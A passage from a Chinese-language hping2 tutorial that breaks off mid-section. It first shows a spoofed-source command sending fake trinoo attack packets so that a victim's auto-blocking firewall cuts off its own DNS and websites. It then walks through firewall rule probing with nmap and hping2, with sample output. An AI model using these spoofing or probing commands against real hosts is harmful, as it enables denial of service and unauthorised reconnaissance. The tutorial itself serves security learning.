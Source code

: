 ```bash

#hping -p 31335 -e PONG -2 ip.add.of.victim -c 5 -d 4 -a www.sina.com
HPING ip.add.of.victim (eth0 ip.add.of.victim): udp mode set, 28 headers
+ 4 data bytes
--- ip.add.of.victim hping statistic ---
5 packets tramitted, 0 packets received, 100% packet loss round-trip min/avg/max = 0.0/0.0/0.0 ms
```

上面的三个命令干了同一件事情，以伪造的ip发送假的trinoo攻击数据包.

结果:在目标主机上所有伪造的ip地址网络连接被block了，也就是对目标主机ip.add.of.victim而言，它的dns服务器，google和sina都无法访问了。
我很怀疑目前的个人防火墙只要存在auto-block功能，就存在这一问题。

- 防火墙规则测试

hping有类似NMAP的方法来检测并收集关于潜在的防火墙的规则和能力的信息。
如果一个主机对ping没有任何相应，而对hping有响应，假定目标的主机为192.168.2.234.
一旦主机对hping作出了响应,那么下一步我们先用nmap先进行一个端口扫描,当然这个hping2也可以作.

```bash
nmap -sT -P0 -p 21-25 192.168.2.234
Starting Nmap 4.53 ( http://insecure.org ) at 2008-08-14 15:56 CST
Interesting ports on 192.168.2.234:
PORT STATE SERVICE
21/tcp filtered ftp
22/tcp open ssh
23/tcp filtered telnet
24/tcp filtered priv-mail
25/tcp filtered smtp
Nmap done: 1 IP address (1 host up) scanned in 1.379 seconds
```

以上信息显示除了ssh端口外,其他端口被阻塞.然后可以试试用hping向各个被阻塞的端口发送空的报文.用-p的开关,可以对指定的目的端口进行hping.

```bash
hping2 -p 21 192.168.2.234
HPING 192.168.2.234 (eth0 192.168.2.234): NO FLAGS are set, 40 headers + 0 data bytes
24: len=46 ip=192.168.2.234 ttl=128 id=2461 sport=24 flags=RA seq=7 win=0 rtt=0.7 ms
len=46 ip=192.168.2.234 ttl=128 id=2462 sport=24 flags=RA seq=8 win=0 rtt=0.7 ms
25: len=46 ip=192.168.2.234 ttl=128 id=2463 sport=25 flags=RA seq=9 win=0 rtt=0.7 ms
len=46 ip=192.168.2.234 ttl=128 id=2464 sport=24 flags=RA seq=10 win=0 rtt=0.7 ms
```

前三个端口没有响应,端口24 25 获得了RST/ACK响应.这说明,虽然这些端口被禁止PING,但没有工具在该端口上监听.然而为什么NMAP没有得到响应,因为NMAP虽然使用 TCP连接,但它在TCP报头中设置了TCP SYN标记位,而HPING 使用了空标记的报文,这就告诉我们说,在主机192.168.2.234上只阻塞进入的TCP连接.接下来使用hping创建一个SYN报文然后将其发送 到5个端口再测试.

```bash
hping2 -S -p 21 192.168.2.234
HPING 192.168.2.234 (eth0 192.168.2.234): S set, 40 headers + 0 data bytes
22: len=46 ip=192.168.2.234 ttl=128 id=10722 sport=22 flags=SA seq=1 win=0 rtt=1.2 ms
len=46 ip=192.168.2.234 ttl=128 id=10747 sport=22 flags=SA seq=2 win=0 rtt=0.7 ms
```

这次只有22端口响应,说明SSH端口是开放的,但有工具在上面监听,该端口没有进行过滤.
然后我们再创建一个ACK报文并发送:
